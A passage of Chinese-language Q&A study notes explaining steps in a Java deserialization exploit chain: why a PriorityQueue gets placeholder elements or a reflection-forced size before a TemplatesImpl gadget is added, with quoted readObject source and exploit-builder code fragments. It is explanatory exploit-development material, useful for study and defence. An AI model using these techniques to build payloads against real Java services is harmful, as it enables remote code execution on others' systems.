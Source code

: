 ```java
    PriorityQueue queue = new PriorityQueue(2);//使用指定的初始容量创建一个 PriorityQueue，并根据其自然顺序对元素进行排序。
    queue.add(1);//1
    queue.add(2);//2
```

注释1、2处，为何需要这两行代码？

A1：

我们看PriorityQueue的readObject函数：

```java
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        // Read in size, and any hidden stuff
        s.defaultReadObject();

        // Read in (and discard) array length
        s.readInt();

        SharedSecrets.getJavaOISAccess().checkArray(s, Object[].class, size);
        queue = new Object[size];

        // Read in all elements.
        for (int i = 0; i < size; i++)
            queue[i] = s.readObject();

        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();
    }
```

若无这两行代码，则创建的queue的size属性为0。

这会导致反序列化时queue为空。

因此Exp也可以改为：

```java
    PriorityQueue queue = new PriorityQueue(2);//使用指定的初始容量创建一个 PriorityQueue，并根据其自然顺序对元素进行排序。
    Field field4=queue.getClass().getDeclaredField("size");//获取PriorityQueue的size字段
    field4.setAccessible(true);//暴力反射
    field4.set(queue,2);//设置queue的comparator字段值为comparator
```

Q2：

为何要用1、2占位，不能直接add`templatesImpl`​？

A2:

因为会报错：

​`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl cannot be cast to java.lang.Comparable`​

而利用反射时
